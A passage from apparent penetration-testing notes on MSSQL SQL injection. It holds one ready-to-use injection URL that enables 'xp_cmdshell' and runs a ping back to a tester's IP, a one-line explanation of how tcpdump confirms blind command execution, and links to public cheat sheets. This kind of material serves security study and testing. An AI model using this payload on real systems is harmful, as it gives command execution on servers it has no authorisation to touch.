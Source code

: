 ```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+null,null%3bexec+sp_configure+'show+advanced+options',+1%3bRECONFIGURE%3bexec+sp_configure+'xp_cmdshell',+1%3b+RECONFIGURE%3bexec+xp_cmdshell+'ping+192.168.119.150'--
```

This will return nothing on the web but `tcpdump icmp` will pick up pings from the vulnerable server. 








## References
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/MSSQL/MSSQL-Union-Based-Injection.html
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://portswigger.net/web-security/sql-injection
- https://www.exploit-db.com/papers/12975
